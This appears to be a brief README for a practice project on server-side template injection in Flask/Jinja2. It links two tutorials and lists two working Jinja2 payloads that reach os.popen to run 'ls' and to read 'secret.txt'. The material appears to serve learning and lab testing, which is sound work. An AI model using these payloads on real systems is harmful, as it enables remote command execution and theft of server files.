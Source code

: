# ssti_simulator

## Remote Code Execution through SSTI
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}

## Other Attack, don' know what to call it
https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

